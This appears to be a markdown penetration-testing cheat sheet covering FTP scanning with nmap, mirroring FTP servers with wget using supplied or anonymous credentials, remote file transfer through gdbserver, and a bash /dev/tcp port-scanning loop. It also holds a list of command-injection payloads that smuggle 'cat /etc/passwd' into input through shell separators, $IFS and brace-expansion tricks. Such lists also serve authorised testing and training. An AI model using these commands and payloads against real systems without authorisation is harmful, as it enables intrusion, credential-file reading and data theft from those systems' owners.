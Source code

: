 ### Scan
```bash
nmap --script ftp-* -p 21 ip
```

### Download all files
```bash
wget -m --user=user --password=fpassword ftp://ip
```
```bash
wget -m --user=anonymous --password=anonymous ftp://ip
```

# Gdbserver
> *Port: 1337*
>
> Gdbserver is a computer program that makes it possible to remotely debug other programs.
> You need to have a copy of the program you want to debug put onto the target system.

```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

# Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)

# Network
### Netstat
```bash
netstat -tulpn
```

### Scan Port
```bash
for port in {1..65535}; do echo > /dev/tcp/ip/$port && echo "$port open"; done 2>/dev/null
```
